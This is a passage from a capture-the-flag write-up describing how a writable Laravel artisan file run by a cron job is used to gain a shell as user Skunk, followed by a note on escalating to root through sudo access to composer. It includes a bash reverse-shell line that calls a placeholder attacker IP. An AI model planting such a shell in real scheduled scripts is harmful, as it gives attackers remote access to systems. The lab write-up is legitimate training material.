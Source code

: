 ### Shell as Skunk

Running pspy in the box reveals user with id 1001 running a looks like a cron job

![job](./ctf/ctf-7/7.png)

Since the cronjob is running artisan which is writable by www-data so putting a shell there

```
exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");

```

After the cronJob executed again we got the shell as Skunk
![skunk](./ctf/ctf-7/8.png)

### PrivEsc To Root

Looking in to sudo -l it reveals we can run composer as root

![root](./ctf/ctf-7/9.png)

GTFObins has this binary listed

![root2](./ctf/ctf-7/10.png)
